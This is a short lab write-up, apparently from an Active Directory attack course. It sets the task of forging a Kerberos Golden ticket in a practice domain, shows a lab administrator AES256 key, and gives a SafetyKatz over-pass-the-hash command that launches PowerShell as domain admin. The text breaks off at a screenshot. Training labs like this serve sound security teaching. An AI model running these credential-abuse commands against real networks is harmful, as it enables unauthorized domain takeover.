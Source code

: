 # Hands-on 14: Golden Tickets

- [Hands-on 14: Golden Tickets](#hands-on-14-golden-tickets)
  - [Tasks](#tasks)
  - [Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket. Use the Golden ticket to (once again) get domain admin privileges from a machine.](#using-the-ntlm-hash-or-aes-key-of-krbtgt-account-of-ustechcorplocal-create-a-golden-ticket-use-the-golden-ticket-to-once-again-get-domain-admin-privileges-from-a-machine)

---

## Tasks

- Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket. Use the Golden ticket to (once again) get domain admin privileges from a machine.

<br/>

----

## Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket. Use the Golden ticket to (once again) get domain admin privileges from a machine.

Recall in [Hands-on 11](l11-UnconstrainedDelegation.md), we get the domain admin `administrator` AES256 key:

- `db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335`

Use the domain admin privilege to perform a DCSync. First perform Over-Pass-The-Hash:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe"
```

![picture 43](images/17220b36335a88933017381badca6da7ce73dda40a988ac7494a467874389f26.png)  